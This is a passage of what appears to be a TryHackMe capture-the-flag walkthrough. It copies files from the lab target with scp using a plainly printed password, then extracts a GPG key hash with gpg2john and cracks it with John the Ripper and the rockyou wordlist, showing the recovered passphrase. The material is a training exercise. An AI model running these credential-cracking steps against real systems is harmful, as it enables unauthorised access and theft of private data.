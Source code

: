 # 4 - Using SPC to copy files to the local machine:

```
scp skyfuck@tomghost.thm:/home/skyfuck/* . 
```

**Password:** 8730281lkjlkjdqlksalks

<br>

Successful:
<pre><code style="font-size: 12px; color: rgb(60, 175, 31);">
   credential.pgp                                           100%  394     0.6KB/s   00:00  
   tryhackme.asc                                            100% 5144     7.8KB/s   00:00  
</code></pre>

<br><br>

# 5 - Using John the Ripper to crack the hash file `tryhackme.asc`:
<br>

1. **Install John the Ripper:**
   ```
   sudo apt install john -y
   ```
<br><br>

2. **Extract the hash from a GPG-encrypted file and save it in a .txt file:**
   ```
   gpg2john tryhackme.asc > hashfile.txt
   ```
   <br>

   **The command `gpg2john tryhackme.asc > hashfile.txt` extracts the hash of a GPG-encrypted file (tryhackme.asc) and saves it into a text file (hashfile.txt) for further password cracking with tools like John the Ripper.**


<br><br>

3. **Using John the Ripper to crack the password hash:**
   ```
   john --wordlist=/usr/share/wordlists/rockyou.txt hashfile.txt
   ```
   <br>

   **The command `john --wordlist=/usr/share/wordlists/rockyou.txt hashfile.txt` uses the John the Ripper tool to crack the password hash stored in `hashfile.txt` by attempting passwords from the `rockyou.txt` wordlist.**

   <br>

    Result:
   <pre><code style="font-size: 12px; color: rgb(60, 175, 31);">
      Using default input encoding: UTF-8
      Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
      Cost 1 (s2k-count) is 65536 for all loaded hashes
      Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
      Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
      Will run 2 OpenMP threads
      Press 'q' or Ctrl-C to abort, almost any other key for status
      alexandru        (tryhackme)     
      1g 0:00:00:00 DONE (2025-02-26 21:59) 12.50g/s 13400p/s 13400c/s 13400C/s chinita..alexandru
      Use the "--show" option to display all of the cracked passwords reliably
      Session completed. 
   </code></pre>